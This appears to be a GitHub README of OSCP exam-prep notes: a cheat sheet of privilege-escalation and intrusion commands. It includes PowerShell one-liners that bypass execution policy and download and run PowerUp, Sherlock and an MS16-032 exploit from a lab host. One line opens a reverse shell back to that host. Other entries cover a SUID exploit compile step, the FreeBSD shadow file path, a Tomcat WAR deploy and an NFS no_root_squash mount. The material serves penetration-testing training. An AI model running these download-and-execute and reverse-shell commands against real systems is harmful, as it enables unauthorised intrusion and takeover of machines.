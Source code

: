# for-oscp
some notes ,scripts
# 本地编译exp 如果目标机器没有gcc
gcc -m32 -Wl,--hash-style=both -o suid suid.c
# accesschk.exe usage

accesschk.exe -uwcqv "Users" * /accepteula
accesschk.exe -ucqv [service_name] 
# windows powershell priv sc 
# powerup for basic check
powershell -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.40:8000/PowerUp.ps1'); Invoke-AllChecks
# sherlock for kernel check
powershell -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.40:8000/Sherlock.ps1') ; Find-AllVulns
# ms16-032
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.40:8000/ms16_032_intrd_mod.ps1');Invoke-MS16-032 \
"-NoProfile -ExecutionPolicy Bypass -Command IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.40:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.0.40 -Port 445\" "

# export PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin"

# freebsd shadow file is /etc/spwd.db

# WINDOWS/setupapi.log /usr/share/seclists/Fuzzing/Windows-Attacks.fuzzdb.txt  some windows local files

# unicorn scan
unicornscan -i tap0 -Ir 160 10.11.1.22:1-4000

# tomcat manager console deploy war 
10.11.1.209:8080/[war_name]  
# NFS mount
cat /etc/exports “no_root_squash” can be exploit
showmount -e [ip]
mount -o rw,vers=2 [ip]:/tmp /tmp/1
